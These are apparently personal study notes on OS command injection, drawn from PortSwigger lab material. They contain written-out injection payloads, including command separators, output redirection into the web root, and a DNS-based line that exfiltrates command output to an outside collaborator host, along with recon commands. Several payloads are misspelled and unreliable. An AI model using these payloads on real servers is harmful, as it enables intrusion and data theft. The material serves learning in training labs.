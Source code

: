 # What is this ?
- a web vulnerabilities  
-  to allows an attacker to execute operating system (OS) commands on the server that is running an application, and typically fully compromise the application and its data
- #### ![[p2.png]]
# Injecting OS commands

In this example, a shopping application lets the user view whether an item is in stock in a particular store. This information is accessed via a URL:
`https://insecure-website.com/stockStatus?productID=381&storeID=29`

To provide the stock information, the application must query various legacy systems. For historical reasons, the functionality is implemented by calling out to a shell command with the product and store IDs as arguments:
`stockreport.pl 381 29`

This command outputs the stock status for the specified item, which is returned to the user.

The application implements no defenses against OS command injection, so an attacker can submit the following input to execute an arbitrary command:
`& echo aiwefwlguh &`

If this input is submitted in the productID parameter, the command executed by the application is:
`stockreport.pl & echo aiwefwlguh & 29`

The echo command causes the supplied string to be echoed in the output. This is a useful way to test for some types of OS command injection. The & character is a shell command separator. In this example, it causes three separate commands to execute, one after another. The output returned to the user is:
Error - productID was not provided
aiwefwlguh
29: command not found

The three lines of output demonstrate that:

    The original stockreport.pl command was executed without its expected arguments, and so returned an error message.
    The injected echo command was executed, and the supplied string was echoed in the output.
    The original argument 29 was executed as a command, which caused an error.

Placing the additional command separator & after the injected command is useful because it separates the injected command from whatever follows the injection point. This reduces the chance that what follows will prevent the injected command from executing.
LAB
APPRENTICE
OS command injection, simple case
## Lab: OS command injection, simple case
- [link](https://portswigger.net/web-security/os-command-injection/lab-simple)
- step 1
	- finding injected point
		- `storeId=1`
	- exploiting
```shell
sstoreId=1 | whomai
``` 
## Useful commands
```shell
# in linux
whoami        
uname -a        
ifconfig        
netstat -an        
network connections           
ps -ef

# in windows
whoami   
var    
ipconfig /all    
netstat an    
tasklist
```
# Blind Mode
- This means that the application **does not return** the output from the command within its HTTP response
    
- imagine
    - a website that lets users submit feedback about the site. The user enters their email address and feedback message. The server-side application then generates an email to a site administrator containing the feedback. To do this, it calls out to the mail program with the submitted details:
        
        - `mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com`
### Detecting blind OS command injection using time delays

You can use an injected command to trigger a time delay, enabling you to confirm that the command was executed based on the time that the application takes to respond. The `ping` command is a good way to do this, because lets you specify the number of ICMP packets to send. This enables you to control the time taken for the command to run:

`& ping -c 10 127.0.0.1 &`

This command causes the application to ping its loopback network adapter for 10 seconds.

#### Laboratory
- #####  [link](https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays)
- 1
	- detecting injected point 
		- email in packet
			- email=slar..
	- exploit
		- email=s||ping+-c+11+ip
### Exploiting blind OS command injection by redirecting output

You can redirect the output from the injected command into a file within the web root that you can then retrieve using the browser. For example, if the application serves static resources from the filesystem location `/var/www/static`, then you can submit the following input:

`& whoami > /var/www/static/whoami.txt &`

The `>` character sends the output from the `whoami` command to the specified file. You can then use the browser to fetch `https://vulnerable-website.com/whoami.txt` to retrieve the file, and view the output from the injected command.

LAB
 [Blind OS command injection with output redirection](https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection)
- step 1
	- detecting injected point
		- email=s
	- exploit
		- **lab discretion /var/www/images **
		- see , web server how show images
			- url/images/?filename=picture1.png
		- OK, We are ready to go explioting. 
		- payload
			- `email=s||whomai+>+/var/www/images/output.html`
			- go see open output.html
				- `url/images/?filename=output.html`
### Exploiting blind OS command injection using out-of-band (OAST) techniques

- You can use an injected command that will trigger an out-of-band network interaction with a system that you control, using OAST techniques. For example:
- 
- `& nslookup kgji2ohoyw.web-attacker.com &`
- 
- This payload uses the `nslookup` command to cause a DNS lookup for the specified domain. The attacker can monitor to see if the lookup happens, to confirm if the command was successfully injected.
- ##### [laboratory](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band)
	- ##### how exploit
		- step 1
			- detection injected point
				- `emial+s`
		- step 2
			-  we use **collaborator** in **Pro Brup**
				- create a new dns server ..
				- payload
				- we use subshell [[Bash#what is subshells]]
				- 
	```shell

emial=s||nsloolup+(whomain).l1n4dsua7rkwx1k6ewmrwqgzjqphda1z.oastify.com||
# or 
emial=s||nsloolup+`whomain`.l1n4dsua7rkwx1k6ewmrwqgzjqphda1z.oastify.com||
```
- ##### [laboratory 2](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration)
	- practice in this lab
## Ways of injecting OS commands

You can use a number of shell meta characters to perform OS command injection attacks.

A number of characters function as command separators, allowing commands to be chained together. The following command separators work on both Windows and Unix-based systems:

- `&`
- `&&`
- `|`
- `||`

The following command separators work only on Unix-based systems:

- `;`
- Newline (`0x0a` or `\n`)

On Unix-based systems, you can also use backticks or the dollar character to perform inline execution of an injected command within the original command:

- `` ` `` injected command `` ` ``
- `$(` injected command `)`

The different shell metacharacters have subtly different behaviors that might change whether they work in certain situations. This could impact whether they allow in-band retrieval of command output or are useful only for blind exploitation.

Sometimes, the input that you control appears within quotation marks in the original command. In this situation, you need to terminate the quoted context (using `"` or `'`) before using suitable shell metacharacters to inject a new command.